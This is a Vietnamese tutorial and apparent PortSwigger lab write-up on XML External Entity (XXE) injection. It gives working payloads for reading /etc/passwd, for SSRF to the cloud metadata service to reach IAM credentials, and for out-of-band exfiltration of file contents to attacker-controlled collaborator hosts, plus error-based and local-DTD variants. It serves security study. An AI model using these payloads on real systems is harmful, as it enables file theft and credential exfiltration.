






# XXE - XML External Entity
## 1. XML là gì
Thử tưởng tượng khi giao tiếp, trao đổi dữ liệu với nhau giữa 1 ứng dụng dùng java và 1 ứng dụng dùng python thì do 2 ngôn ngữ lập trình khác nhau nên sẽ xảy ra xung đột về kiểu dữ liệu của data. Điều này khuyến khích ta dùng 1 chuẩn chung được hiểu ở cả 2 và nhiều ngôn ngữ để lưu trữ và trao đổi data\
XML (eXtensible Markup Language)  được sinh ra để giải quyết vấn đề trên

XML có công dụng chính là lưu trữ và trao đổi, chia sẽ data giữa các hệ thống với nhau. Với đặc trưng là người và máy đều có thể hiểu được và có thể được đọc trên mọi hệ thống

Ví dụ XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <application>
      <name>endy</name>
      <mail>abc@123.com</mail>
      <collage>KMP</collage>
  </application>
```
Dòng đầu tiên là Khai báo XML (XML declaration), nó nên có chứ không bắt buộc phải có. Ở phần thân, cứ một cặp thẻ mở-đóng trong XML tạo thành một phần tử, và các phần tử này lồng nhau tạo nên cấu trúc dạng cây.
## 2. External Entity
### A. Entity là gì
Entity là một khái niệm có thể được sử dụng như một kiểu tham chiếu đến dữ liệu, cho phép thay thế một ký tự đặc biệt, một khối văn bản hay thậm chí toàn bộ nội dung một file vào trong tài liệu xml.\
Hay có thể hiểu đơn giản việc dùng ``entity`` giống như là kh
ai báo biến trong lập trình\
Entity có 2 loại là internal entity và external entity
### B. Internal Entity
Internal entity là entity tham chiếu đến một giá trị được khai báo bên trong file xml\
Ví dụ:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY age "19">
  <application>
      <name>endy</name>
      <mail>abc@123.com</mail>
      <collage>KMP</collage>
      <age>&age;</age>
  </application>
```
> Để gọi tới một entity thì ta thêm ``&`` vào đầu và ``;`` vào cuối tên entity
### C. External Entity
External entity là entity tham chiếu đến nội dung một file bên ngoài tài liệu xml\
Ví dụ:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY message SYSTEM "./message/endy.txt">
  <application>
      <name>endy</name>
      <mail>abc@123.com</mail>
      <collage>KMP</collage>
      <message>&message;</message>
  </application>
```
> Để khai báo external entity thì ta thêm từ khóa ``SYSTEM``

Từ cơ chế external entity attacker có thể lợi dụng để thực hiện XXE injection

## 3. XXE
XML external entity injection hay XXE là một lỗ hổng web cho phép attacker có thể can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Cho phép attacker xem bất kỳ file nào trên hệ thống thông qua external entity.\
Trong một vài trường hợp cuộc tấn công XXE có thể leo thang lên thành SSRF

> Tại sao lỗ hỏng XXE phát sinh? Do web thực hiện việc trao đổi thông tin bằng tài liệu XML nhưng dùng các parser mặc định, tiêu chuẩn. Và khi attacker thực hiện XXE thì các parser này vẫn sẽ đọc file và trả về kết quả không một chút nghi ngờ rằng tài liệu XML đã được inject payload

Các loại hình tấn công XXE:
- Exploiting XXE to retrieve files
- Exploiting XXE to perform SSRF attacks
- Exploiting blind XXE 

## 4. Exploiting XXE to retrieve files
Dạng tấn công này ta sẽ dùng XXE để đọc 1 file bất kỳ của sever

#### Ví dụ : Lab1 XXE injection portswigger

Lab cho ta một trang web check số lượng của một mặt hàng nào đó. Khi chọn 1 mặt hàng và check số lượng, ta bắt được request là một tài liệu XML


Ta tiến hành XXE bằng payload sau:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    1
    &xxe;
  </productId>
  <storeId>1</storeId>
</stockCheck>
```
Dòng ``<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`` để đọc file /etc/passwd và dùng ``&xxe;`` để xuất nội dung file ra respone\
Kết quả:



## 5. Exploiting XXE to perform SSRF attacks
Dạng tấn công này sẽ lợi dụng XXE để tạo request đến website khác bên ngoài, thực hiện tấn công SSRF. Các thông tin nhạy cảm của sever có thể được gửi đi qua website của attacker

Ta dùng câu khai báo sau để thực hiện request tới website khác bên ngoài:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker-website.com"> ]>
```

#### Ví dụ : Lab2 XXE injection portswigger

Ở lab này vẫn là trang check số lượng hàng, nhưng web yêu cầu ta gửi request đến ``http://169.254.169.254/`` và sẽ nhận về dữ liệu về các instance

Đề bài ở lab2 này giống với lab1 nhưng chỉ thay đổi cách tấn công nên em sẽ chỉ nêu payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
  <stockCheck>
    <productId>
      1
      &xxe;
    </productId>
    <storeId>1</storeId>
  </stockCheck>
```
Khi gửi payload này thì ta nhận được instance tiếp theo là ``lastest``



Ta thêm ``/latest`` vào url và tiếp tục gửi payload. Cứ thế ta được đường dẫn đến ``SecretAccessKey`` như sau ``http://169.254.169.254/latest/meta-data/iam/security-credentials/admin``

## 6. Exploiting blind XXE
Tương tự như blind SQLi thì blind XXE xảy ra khi ứng dụng không trả về bất kỳ respone nào cho ta khi thực hiện XXE injection. Trong bài này em sẽ đề cập đến 2 kỹ thuật để thực hiện tấn công blind XXE là **blind XXE out-of-band** và **blind XXE eror message**
### A. Blind XXE out-of-band
Đây là kỹ thuật mà ta sẽ inject payload sao cho target gửi request đến web mà ta kiểm soát. Cách triển khai thì tương tự như ``XXE SSRF attack``

#### Ví dụ : Lab3 XXE injection portswigger

Lab này vẫn là 1 trang check stock, và yêu cầu của nó là thực hiện XXE sao cho labs phải gửi request đến Burp Collaborator của mình\
Ta dùng dòng sau để inject:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```
> Trong đó ``BURP-COLLABORATOR-SUBDOMAIN`` là domain của Burp Collaborator của mỗi người

Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2jmqyw22mlhogzkifmin6pp0ur0io7.oastify.com"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>1</storeId>
  </stockCheck>
```
Khi inject thành công thì Burp Collborator sẽ bắt được request:


#### Ví dụ: Lab4 XXE injection portswigger
Ở ví dụ này thì mình dùng Blind XXE out-of-band để đọc một file bất kỳ trên sever

Trước tiên ta cần tìm hiểu về cách dùng kỹ thuật out-of-band để đọc file bất kỳ trên sever, các bước thực hiện sẽ bao gồm
1. Khai báo một file DTD có nhiệm vụ là đọc 1 file và gửi nội dung file đó cho Burp Collaborator
2. Thực hiện XXE out-of-band đến file DTD trên

File DTD sẽ được khai báo như sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
> Trong đó: 
>>1. entity ``file`` được dùng để đọc file bất kỳ
>>2. entity ``eval`` sẽ chứa một khai báo động đến ``exfil``
>>3. ``exif`` sẽ gửi request đến Burp Collaborator kèm theo nội dung của file
>>3. Ngoài ra thì payload trên sử dụng ``%`` để khai báo entity. Cách khai báo này gọi là ``Parameterized entity``, nó tương tự như khai báo thông thường nhưng sẽ được dùng để bypass khi khai báo kiểu bình thường không hoạt động
>>4. Phần mã hex ``&#x25`` là mã hex của ký tự ``%``, ta dùng mã hex đơn giản là để bypass thôi

Bước tiếp theo trong tài liệu XML của web thì ta inject thêm đoạn sau để thực hiện SSRF tới file DTD của ta:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

Quay trở lại với Labs, thì vẫn là trang check stock quen thuộc và đề bài yêu cầu ta đọc file /etc/hostname.

Đầu tiên ta khai báo file DTD với nội dung sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://8z8oco3dqgxm3ziloo75ta2xxo3ir7.oastify.com/?x=%file;'>">
%eval;
%exfil;
```
Tại tài liệu XML của web ta thực hiện SSRF tới file DTD trên:



Sau khi gửi đi paylaod thì tại Burp Collaborator ta sẽ nhận được request:



Cuối cùng submit nội dung file hostname và solved lab

>**NOTE:** Tuy nhiên kỹ thuật này có một nhược điểm là sẽ không hoạt động với các file có nhiều dòng, ví dụ như /etc/passwd. Điều này xảy ra vì XML parser khi fetch URL trong DTD sử dụng API, thì nó sẽ validate các ký tự không được phép xuất hiện trong URL (mà xuống dòng là một trong những ký tự đó). Trong trường hợp này có thể dùng giao thức FTP thay cho HTTP

### B. Blind XXE via eror message
Một cách thức tấn công blind XXE khác đó chính là trigger XML parsing eror khi đó error mesage được trả về, có thể chứa data nhạy cảm mà ta muốn lấy. Kỹ thuật này chỉ hiệu quả khi ứng dụng trả về error message bên trong response của nó

Ví dụ về paylaod dùng error message để đọc nội dung file /etc/passwd:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
> Cơ chế: Khi ``error`` cố gắng đọc 1 file không tồn tại (nonexistent) thì XML sẽ quăng ra một error message chứa tên file nonexistent đó, và bởi vì ta concat nội dung file /etc/passwd cho tên file nonexistent, nên khi error message trả về tên file nonexistent ta sẽ đọc được nội dung của /etc/passwd

Và để trigger được DTD chứa payload thì ta cũng dùng cách tương tự như Blind XXE out-of-band

#### Ví dụ: Lab5 XXE injection portswigger
Ở labs này thì input XML sẽ không trả về giá trị gì khi gửi đi nếu không phải là check số lượng hàng, vì thế ta dùng error message để đọc file /etc/passwd

Đầu tiên tạo một file DTD có nội dung như sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Sau đó tại nơi trao đổi XML của trang web ta đổi thành:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a0700f6044173bcc0b3383401f6008f.exploit-server.net/exploit"> %xxe;]>
  <stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
  </stockCheck>
```
> Trong đó : ``https://exploit-0a0700f6044173bcc0b3383401f6008f.exploit-server.net/exploit`` là link tới file DTD chứa payload

Gửi XML đi và ta nhận về error message có chứa nội dung file /etc/passwd



### C. Blind XXE by repurposing a local DTD
Ở 2 kỹ thuật trước thì hoạt động bình thường với external DTD, nhưng nó không hoạt động khi dùng internal DTD. Bởi vì đây là cơ chế của XML khi ta dùng parameter entity thì parameter entity chỉ được cho external DTD còn internal DTD thì không. Đó cũng giải thích vì sao ở 2 kỹ thuật trên ta lại phải cần thực hiện SSRF đến file DTD bên ngoài

Tuy nhiên sẽ ra sao nếu như ứng dụng chặn không cho thực hiện out-of-band?

Trong tình huống đó thì ta vẫn có thể thực hiện trigger error message được, thông qua việc lợi dụng một lỗ hỏng của đặc tả ngôn ngữ XML. Lỗ hỏng đó chính là, nếu DTD document sử dụng hổn hợp internal và external DTD, thì những entity mà được khai báo trong internal DTD sẽ được ghi đè (redefine) những entity cùng tên trong external DTD. Khi lợi dụng lỗ hỏng này thì ta không cần lo tới việc parameter entity bị chặn trong internal DTD nửa

Tóm lại với kỹ thuật này thì attacker sẽ gọi một file external DTD trong hệ thống, và redefine những entity có trong file DTD này để trả về error message có chứa dữ liệu nhạy cảm. Mấy chốt của kỹ thuật này là ta phải tìm được trong hệ thống có những file DTD nào và tìm được entity thích hợp trong các file DTD đó để thực hiện redefine

Ví dụ ở đây ta có một file DTD ở đường dẫn ``/usr/local/app/schema.dtd`` và file này khai báo một ``custom_entity``. Attacker có thể dễ dàng trigger error mesage để đọc nội dung của /etc/passwd bằng đoạn payload sau:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Đầu tiên ta khai báo ``local_dtd`` để chứa nội dung của file ``schema.dtd``, vì trong file ``schema.dtd`` có một ``custome_entity`` nên ta khai báo ``custome_entity`` mới để ghi đè lên. Và nội dung của ``custome_entity`` mới này dùng để trigger error message để đọc nội dung của /etc/passwd. Cuối cùng ta gọi ``%local_dtd;`` để trigger payload

#### Làm sao để biết được vị trí của file DTD trong hệ thống để thực hiện ghi đè entity?
Thông thường, một hệ thống Linux sử dụng GNOME desktop environment sẽ lưu danh sách file DTD ở ``/usr/share/yelp/dtd/docbookx.dtd``. Ta có thể test bằng cách dùng error message để in nội dung danh sách này ra  

#### Ví dụ: Lab9 XXE injection portswigger
Ở labs này thì vẫn là trang check stock và labs yêu cầu ta dùng kỹ thuật repurposing để trigger ra error mesage chứa nội dung của /etc/passwd.

Labs có gợi ý trong hệ thống có file ``/usr/share/yelp/dtd/docbookx.dtd`` và file này có entity là ``ISOamso``

Ta dùng payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
      <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
'>
  %local_dtd;
  <stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
  </stockCheck>
```
Output:


